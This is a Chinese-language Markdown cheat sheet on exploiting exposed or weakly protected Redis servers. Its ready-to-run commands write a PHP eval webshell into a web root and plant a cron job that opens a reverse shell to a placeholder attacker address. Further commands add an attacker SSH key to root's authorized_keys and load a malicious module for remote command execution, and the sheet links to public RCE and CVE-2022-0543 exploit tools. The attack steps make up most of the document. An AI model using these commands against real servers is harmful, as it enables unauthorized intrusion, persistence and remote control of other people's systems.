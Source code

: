 # Redis 漏洞利用
## 0x00 Introduction
redis是一个key-value存储系统。   

### 前置条件      
获取redis权限
- 未授权
- 弱口令

### 达成的漏洞利用效果
- 写任意文件
- 信息泄露
- 远程命令执行

## 0x01 漏洞利用

### 1. 信息泄露

#### (1)info命令

可以泄露操作系统信息，以此为后续漏洞利用做准备。   

### 2. 写任意文件->RCE

#### (1) 新建DB写文件->webshell
附件条件：
1. 同主机存在web服务
2. 已知网站路径
3. 具备写权限 
    
```
config set dir /var/www/html    
config set dbfilename webshell.php  
set shell "<?php @eval($_POST['shell']);?>"  
save  
```
#### (2) 新建DB写文件->计划任务反弹shell

```
redis-cli -h 192.168.1.11
config set dir /var/spool/cron
set re "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/x.x.x.x/8899 0>&1\n\n"
config set dbfilename root
save
```

#### (3) 新建DB写文件->公钥SSH连接
```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > re.txt
```
```
cat re.txt | redis-cli -h 192.168.1.11 -x set re
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```
本地连接：
```
ssh  -o StrictHostKeyChecking=no 192.168.1.1
```
### 3. 远程命令执行

#### (1) 主从同步->RCE
- 附加条件： redis 4.x-5.0.5
- 在Redis 4.x之后，Redis新增了模块功能，通过外部拓展，可以在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。  

#### Linux
- 漏洞利用： https://github.com/Ridter/redis-rce
- linux 命令执行模块（so）：https://github.com/RicterZ/RedisModules-ExecuteCommand.

redis-rce工具一键利用    
#### Windows
- 漏洞利用：https://github.com/r35tart/RedisWriteFile
- windows 命令执行模块（dll）:https://github.com/0671/RedisModules-ExecuteCommand-for-Windows

```
python RedisWriteFile.py --auth 123qwe --rhost=10.20.3.97 --rport=6379 --lhost=10.10.10.31 --lport=2222 --rpath="C:\Users\test\Desktop" --rfile="exp.dll" --lfile="exp.dll" 

redis:
>module load C:\Users\test\Desktop\exp.dll 
>exp.e whoami
```
#### (2) Redis沙盒绕过（CVE-2022-0543）
- 附加条件： 2.2 <= redis < 5.0.13，2.2 <= redis < 6.0.15，2.2 <= redis < 6.2.5
- 漏洞利用：https://github.com/aodsec/CVE-2022-0543
#### （3）结合Jackson,Fastjosn等反序列化的漏洞利用（java）
- 附加条件：Java 反序列化漏洞
参考 [细数 redis 的几种 getshell 方法](https://paper.seebug.org/1169/)

## Ref
- https://www.freebuf.com/column/237263.html
